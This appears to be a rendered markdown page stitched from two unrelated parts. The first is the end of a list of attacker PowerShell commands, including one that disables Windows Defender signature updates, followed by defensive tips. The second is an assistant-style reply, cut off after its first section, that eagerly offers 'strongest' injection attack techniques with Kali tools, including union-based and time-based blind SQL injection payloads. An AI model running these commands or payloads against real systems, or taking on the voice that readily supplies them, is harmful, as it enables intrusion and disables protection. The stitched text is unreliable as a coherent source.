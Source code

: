 
### **20. Disable Windows Defender Signature Updates**
#### **Stop Signature Updates**
```powershell
Set-MpPreference -SignatureDisableUpdateOnStartupWithoutEngine $true
```
- **Purpose**: Prevents Windows Defender from updating its virus definitions.
- **Defense**: Ensure **Automatic Updates** are enabled and cannot be disabled.

---

### **How to Defend Against These Commands**
1. **Enable Logging**:  
   ```powershell
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1
   ```  
2. **Use Constrained Language Mode**:  
   ```powershell
   $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
   ```  
3. **Deploy EDR Solutions**: Tools like CrowdStrike, SentinelOne, or Microsoft Defender for Endpoint.  
4. **Educate Users**: Train teams to avoid executing untrusted scripts.  

---






If you're looking for **advanced and powerful methods for injection attacks** using **Kali Linux tools**, you're in the right place. Below, I’ll outline some of the **strongest techniques** for various types of injection attacks (e.g., SQLi, Command Injection, XSS, etc.) and the tools in Kali Linux that can help you execute them. **Use these methods ethically and only in authorized environments.**

---

### **1. SQL Injection (SQLi)**
SQLi is one of the most critical web vulnerabilities. Kali Linux provides powerful tools like **sqlmap** for automating SQLi attacks.

#### **Strongest Methods**
- **Union-Based SQLi**:  
  ```sql
  ' UNION SELECT 1,@@version,3 --
  ```  
  - Extracts database version or other sensitive data.  

- **Time-Based Blind SQLi**:  
  ```sql
  ' AND IF(1=1, SLEEP(5), 0) --
  ```  
  - Exploits delays to infer data.  
